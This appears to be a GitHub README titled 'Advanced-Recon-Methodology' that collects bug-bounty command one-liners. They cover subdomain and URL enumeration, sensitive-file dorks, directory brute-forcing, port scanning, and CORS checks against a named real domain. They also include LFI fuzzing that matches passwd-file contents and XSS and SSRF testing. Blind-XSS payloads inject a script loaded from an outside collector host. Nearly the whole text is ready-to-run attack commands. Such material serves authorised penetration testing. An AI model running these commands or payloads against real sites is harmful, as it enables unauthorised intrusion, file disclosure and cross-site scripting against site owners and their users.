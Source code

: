 # Advanced-Recon-Methodology
#For finding subdomains

**subfinder -d example.com -all -recursive > subdomain.txt**

#For filter out live subdomains

cat subdomain.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt

#For fetching passive urls

katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt

#For finding sensitive files

cat allurls.txt | grep -E '\.xls|\.xml|\.xlsx|\.json|\.pdf|\.sql|\.doc|\.docx|\.pptx|\.txt|\.zip|\.tar\.gz|\.tgz|\.bak|\.7z|\.rar|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.gz|\.config|\.csv|\.yaml|\.md|\.md5'

#For fetch and sorting urls - part 1

echo example.com | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | urldedupe >output.txt

#For fetch and sorting urls - part 2

katana -u https://example.com -d 5 | grep '=' | urldedupe | anew output.txt

#For fetch and sorting urls - part 3

cat output.txt | sed 's/=.*/=/' >final.txt

#For fetch and sorting urls - part 4

echo example.com | gau --mc 200 | urldedupe >urls.txt

#For fetch and sorting urls - part 5

cat urls.txt | grep -E '.php|.asp|.aspx|.jspx|.jsp' | grep '=' | sort > output.txt

#For fetch and sorting urls - part 6

cat output.txt | sed 's/=.*/=/' >final.txt

#For finding hidden parameter - part 1

arjun -u https://site.com/endpoint.php -oT arjun_output.txt -t 10 --rate-limit 10 --passive -m GET,POST --headers 'User-Agent: Mozilla/5.0'

#For finding hidden parameter - part 2

arjun -u https://site.com/endpoint.php -oT arjun_output.txt -m GET,POST -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -t 10 --rate-limit 10 --headers 'User-Agent: Mozilla/5.0'

#For checking CORS - part 1

curl -H 'Origin: http://example.com' -I https://etoropartners.com/wp-json/

#For checking CORS - part 2

curl -H 'Origin: http://example.com' -I https://etoropartners.com/wp-json/ | grep -i -e 'access-control-allow-origin' -e 'access-control-allow-methods' -e 'access-control-allow-credentials'

#Information Disclosure dork

site:*.example.com (ext:doc OR ext:docx OR ext:odt OR ext:pdf OR ext:rtf OR ext:ppt OR ext:pptx OR ext:csv OR ext:xls OR ext:xlsx OR ext:txt OR ext:xml OR ext:json OR ext:zip OR ext:rar OR ext:md OR ext:log OR ext:bak OR ext:conf OR ext:sql)

#Wordpress aggressive scanning

wpscan --url https://site.com --disable-tls-checks --api-token <here> -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force

#LFI methodology

echo 'https://example.com/' | gau | gf lfi | uro | sed 's/=.*/=/' | qsreplace 'FUZZ' | sort -u | xargs -I{} ffuf -u {} -w payloads/lfi.txt -c -mr 'root:(x|\*|\$[^\:]*):0:0:' -v

#Directory Bruteforce - part 1

dirsearch -u https://example.com -e php,cgi,htm,html,shtm,shtml,js,txt,bak,zip,old,conf,log,pl,asp,aspx,jsp,sql,db,sqlite,mdb,tar,gz,7z,rar,json,xml,yml,yaml,ini,java,py,rb,php3,php4,php5 --random-agent --recursive -R 3 -t 20 --exclude-status=404 --follow-redirects --delay=0.1

#Directory Bruteforce - part 2

ffuf -w seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u https://example.com/FUZZ -fc 400,401,402,403,404,429,500,501,502,503 -recursion -recursion-depth 2 -e .html,.php,.txt,.pdf,.js,.css,.zip,.bak,.old,.log,.json,.xml,.config,.env,.asp,.aspx,.jsp,.gz,.tar,.sql,.db -ac -c -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'X-Forwarded-For: 127.0.0.1' -H 'X-Originating-IP: 127.0.0.1' -H 'X-Forwarded-Host: localhost' -t 100 -r -o results.json

#JS File hunting - part 1

echo example.com | katana -d 5 | grep -E '\.js$' | nuclei -t nuclei-templates/http/exposures/ -c 30

#JS File hunting - part 2

cat alljs.txt | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/

#For Checking Subdomain takeover

subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl

#For finding CORS

python3 corsy.py -i subdomains_alive.txt -t 10 --headers 'User-Agent: GoogleBot\nCookie: SESSION=Hacked'

#For testing header based blind xss

subfinder -d example.com | gau | bxss -payload ''><script src=https://xss.report/c/coffinxp></script>' -header 'X-Forwarded-For'

#For checking single xss on all urls

echo 'example.com ' | gau | qsreplace '<sCript>confirm(1)</sCript>' | xsschecker -match '<sCript>confirm(1)</sCript>' -vuln

#For finding Blind xss

subfinder -d example.com | gau | grep '&' | bxss -appendMode -payload ''><script src=https://xss.report/c/coffinxp></script>' -parameters

#Content-type Filter - part 1

echo domain | gau | grep -Eo '(\/[^\/]+)\.(php|asp|aspx|jsp|jsf|cfm|pl|perl|cgi|htm|html)$' | httpx -status-code -mc 200 -content-type | grep -E 'text/html|application/xhtml+xml'

#Shodan dork

Ssl.cert.subject.CN:'example.com' 200

#XSS method - part 1

echo https://example.com/ | gau | gf xss | uro | Gxss | kxss | tee xss_output.txt

#XSS method - part 2

cat xss_output.txt | grep -oP '^URL: \K\S+' | sed 's/=.*/=/' | sort -u > final.txt

#Naabu scan

naabu -list ip.txt -c 50 -nmap-cli 'nmap -sV -SC' -o naabu-full.txt

#Nmap scan

nmap -p- --min-rate 1000 -T4 -A target.com -oA fullscan

#Masscan

masscan -p0-65535 target.com --rate 100000 -oG masscan-results.txt

#FFUF request file method - part 1

ffuf -request lfi -request-proto https -w /root/wordlists/offensive\ payloads/LFI\ payload.txt -c -mr 'root:'

#FFUF request file method - part 2

ffuf -request xss -request-proto https -w /root/wordlists/xss-payloads.txt -c -mr '<script>alert('XSS')</script>'

#XSS and SSRF testing with headers

cat domains.txt | assetfinder --subs-only| httprobe | while read url; do xss1=$(curl -s -L $url -H 'X-Forwarded-For: xss.yourburpcollabrotor'|grep xss) xss2=$(curl -s -L $url -H 'X-Forwarded-Host: xss.yourburpcollabrotor'|grep xss) xss3=$(curl -s -L $url -H 'Host: xss.yourburpcollabrotor'|grep xss) xss4=$(curl -s -L $url --request-target http://burpcollaborator/ --max-time 2); echo -e '\e[1;32m$url\e[0m''\n''Method[1] X-Forwarded-For: xss+ssrf => $xss1''\n''Method[2] X-Forwarded-Host: xss+ssrf ==> $xss2''\n''Method[3] Host: xss+ssrf ==> $xss3''\n''Method[4] GET http://xss.yourburpcollabrotor HTTP/1.1 ''\n';done

#LFI methodology - alternative method

echo 'https://example.com/index.php?page=' | httpx-toolkit -paths payloads/lfi.txt -threads 50 -random-agent -mc 200 -mr 'root:(x|\*|\$[^\:]*):0:0:'
